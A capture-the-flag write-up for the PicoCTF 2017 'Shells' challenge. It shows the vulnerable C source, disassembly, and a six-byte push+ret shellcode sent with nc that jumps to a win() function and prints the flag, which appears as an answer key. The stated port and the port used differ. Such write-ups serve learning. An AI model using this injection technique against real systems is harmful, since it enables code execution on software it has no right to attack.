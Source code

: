 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:63545.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up

1.  It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
```
$ls
shells shells.c
```   
So now lets try to HexDump the  `shells`  binary.
    
    ```
    shells:     file format elf32-i386
     Disassembly of section .init:
     08048378 <_init>:
      8048378:	53                   	push   %ebx
      8048379:	83 ec 08             	sub    $0x8,%esp
      804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
      8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
      8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
      804838d:	85 c0                	test   %eax,%eax
      804838f:	74 05                	je     8048396 <_init+0x1e>
      8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
      8048396:	83 c4 08             	add    $0x8,%esp
      8048399:	5b                   	pop    %ebx
      804839a:	c3                   	ret    
     
     Disassembly of section .plt:
     
     080483a0 <read@plt-0x10>:
      80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
      80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
      80483ac:	00 00                	add    %al,(%eax)
     	...
     
     080483b0 <read@plt>:
      80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
      80483b6:	68 00 00 00 00       	push   $0x0
      80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
     
     080483c0 <printf@plt>:
      80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
      80483c6:	68 08 00 00 00       	push   $0x8
      80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
     --More--
    
   ```
    
    So it's x86 binary.
    
    Now lets take a look on  `shells.c`  file.
    
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     #include <sys/mman.h>
     
     #define AMOUNT_OF_STUFF 10
     
     //TODO: Ask IT why this is here
     void win(){
         system("/bin/cat ./flag.txt");    
     }
     
     
     void vuln(){
         char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
         if(stuff == MAP_FAILED){
             printf("Failed to get space. Please talk to admin\n");
             exit(0);
         }
         printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
         fflush(stdout);
         int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
         if(len == 0){
             printf("You didn't give me anything :(");
             exit(0);
         }
         void (*func)() = (void (*)())stuff;
         func();      
     }
     
     int main(int argc, char*argv[]){
         printf("My mother told me to never accept things from strangers\n");
         printf("How bad could running a couple bytes be though?\n");
         fflush(stdout);
         vuln();
         return 0;
     }
    
    Just see their iss one  `win()`  function. Lets take a look on win() function in our HexDump. We can short out output using  `grep`  command.
    
    objdump -d shells | grep win
    08048540 <win>:
    
    We got the address in Hex we used to write it in this way  `0x08048540`.
    
    Now we can use  [radare2](https://github.com/radare/radare2)  to generate our payload. Actually we need  `push+ret`  in order to make our payload.
    
    $rasm2 -C "push 0x08048540"
    "\x68\x40\x85\x04\x08"
    
    $rasm2 -C "ret"
    "\xc3"
    

Here  `-C`  will give output in c format.Now combine the output of push+ret:`\x68\x40\x85\x04\x08\xc3`

Now print this shellcode in one file name:  `spirit_shells`.

 python -c 'print "\x68\x40\x85\x04\x08\xc3"' > spirit_shells

now just cat it out with the : shell2017.picoctf.com:17533

$cat spirit_shells - | nc shell2017.picoctf.com 17533
 My mother told me to never accept things from strangers
 How bad could running a couple bytes be though?
 Give me 10 bytes:
 4350d27b024f8597f10b98f164f0fc43

So, i think we got the flag  `4350d27b024f8597f10b98f164f0fc43`.

Hope you liked it
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTkyMDQ0MzQ3MCwtMTIzNDcwNDI4OF19
-->